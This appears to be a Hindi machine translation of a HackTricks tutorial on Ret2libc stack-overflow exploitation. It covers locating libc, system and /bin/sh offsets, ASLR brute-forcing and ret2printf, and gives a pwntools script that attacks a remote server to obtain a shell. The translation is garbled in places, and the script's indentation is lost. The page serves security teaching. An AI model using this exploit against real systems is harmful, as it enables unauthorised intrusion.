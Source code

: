 # Ret2lib

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)\*\* पर फॉलो\*\* करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मौलिक जानकारी**

**Ret2Libc** का सार है किसी भी वंशावली प्रोग्राम के निष्क्रिय क्षेत्र को एक साझा पुस्तकालय के एक फ़ंक्शन (जैसे **system**, **execve**, **strcpy**) में पुनर्निर्देशित करना, ठीक विकल्पित शेलकोड को स्टैक पर नहीं चलाना। हमलावर एक पेलोड बनाता है जो स्टैक पर वापसी पता संशोधित करता है ताकि इच्छित पुस्तकालय फ़ंक्शन पर पहुँचे, साथ ही कॉलिंग कन्वेंशन के अनुसार आवश्यक तरीके से सेट किए गए किसी भी आवश्यक तर्कों के लिए भी व्यवस्थित करता है।

### **उदाहरण कदम (सरलीकृत)**

* कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे सिस्टम) और कॉमांड को कॉल करने के लिए (जैसे /bin/sh)
* पहले तर्क को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें जो कमांड स्ट्रिंग पर पहुँचने वाले पहले तर्क को पास करने के लिए और फ़ंक्शन पर निर्देशन विकल्प को पहुँचाने के लिए है।

## पतों का पता लगाना

* मान लेना कि `libc` जो वर्तमान मशीन में उपयोग किया जाएगा, उसे आप मेमोरी में कहाँ लोड किया जाएगा इसे आप निम्नलिखित के साथ खोज सकते हैं:

```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```

यदि आप जांचना चाहते हैं कि ASLR libc के पते को बदल रहा है तो आप यह कर सकते हैं:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

* जानते हुए इस्तेमाल हो रही libc के साथ, `system` फ़ंक्शन के लिए ऑफसेट ढूंढना भी संभव है:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

* जानते हुए कि कौन सी libc का उपयोग किया गया है, इससे `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### जीडीबी-पीडा / जीईएफ का उपयोग

लिबसी का पता लगाने के बाद, **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाने के लिए Peda या GEF का उपयोग भी संभव है:

```
p system
p exit
find "/bin/sh"
```

### उपयोग करना /proc/\<PID>/maps

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं **बच्चे** बना रही है (नेटवर्क सर्वर) तो कोशिश करें कि फ़ाइल को **पढ़ें** (संभावना है कि आपको रूट होने की आवश्यकता होगी)।

यहाँ आप **सटीक रूप से देख सकते हैं कि प्रक्रिया के अंदर libc कहाँ लोड हो रहा है** और **प्रत्येक प्रक्रिया के बच्चों के लिए कहाँ लोड होने जा रहा है**।

![](<../../../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का आधार पता होगा)

## अज्ञात libc

संभावना है कि आपको पता नहीं हो कि बाइनरी कौन सा libc लोड कर रहा है (क्योंकि यह एक सर्वर में स्थित हो सकता है जिसमें आपका कोई पहुंच नहीं है)। उस मामले में आप विकल्प का दुरुपयोग कर सकते हैं ताकि कुछ पते **लीक करें और पता लगाएं कि कौन सा libc** पुस्तकालय उपयोग किया जा रहा है:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md" %}
[https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md](https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/README.md)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट पा सकते हैं:

{% content-ref url="https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md](https://github.com/carlospolop/hacktricks/blob/in/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/ret2lib/rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## ASLR को छलना 32 बिट में

ये ब्रूट-फोर्सिंग हमले **केवल 32बिट सिस्टमों के लिए** उपयोगी हैं।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc का आधार पता लगाने के लिए ब्रूट-फोर्स कर सकते हैं (32बिट सिस्टमों के लिए उपयोगी):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* यदि आप एक रिमोट सर्वर पर हमला कर रहे हैं, तो आप `libc` फ़ंक्शन `usleep` का पता लगाने के लिए \*\*10 (उदाहरण के लिए) के तर्क के साथ पता लगाने की कोशिश कर सकते हैं। यदि किसी समय सर्वर 10 सेकंड अतिरिक्त समय लेता है तो आपने इस फ़ंक्शन का पता लगा लिया है।

## एक गैजेट

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR ब्रूट-फ़ोर्स कोड में एकीकृत किया गया है और वंशावली बाइनरी एक रिमोट सर्वर पर स्थित है:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```

## x64 Ret2lib कोड उदाहरण

निम्नलिखित से उदाहरण देखें:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

इससे **प्रक्रिया से जानकारी लीक करने** की अनुमति होती है जिसे किसी विशेष डेटा को एक तरह के तर्क के रूप में रखकर `printf`/`puts` को कॉल करने से प्राप्त किया जा सकता है।

## Ret2printf

यह मुख्य रूप से एक **Ret2lib का दुरुपयोग करना है ताकि इसे `printf` फॉर्मेट स्ट्रिंग जोखिम बनाने में बदला जा सके** जिसे `ret2lib` का उपयोग करके इसे उत्पीड़ित करने के लिए मानों के साथ `printf` को कॉल करने के लिए उपयोग किया जाता है (यह बेकार लग सकता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, एक फ़ंक्शन के पते में एक लीक दिया गया है, एक गैजेट का उपयोग करते हुए
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम है लेकिन कोई PIE नहीं, पहला कदम एक ओवरफ्लो को भरना है जब तक कैनरी का 0x00 बाइट न हो जाए और फिर puts को कॉल करना है और इसे लीक करना है। कैनरी के साथ एक ROP गैजेट बनाया जाता है जो puts को कॉल करने के लिए GOT से puts का पता लीक करने के लिए और एक ROP गैजेट को कॉल करने के लिए `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, मुख्य स्थान पर स्टैक ओवरफ्लो, एक बच्चे कार्य से। puts को कॉल करने के लिए ROP गैजेट जिससे GOT से puts का पता लीक हो और फिर एक गैजेट को कॉल करने के लिए।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई पाई, कोई कैनरी, कोई रेलरो, एनएक्स। लीक करने के लिए लिखने का उपयोग करता है (libc) और एक गैजेट को कॉल करता है।
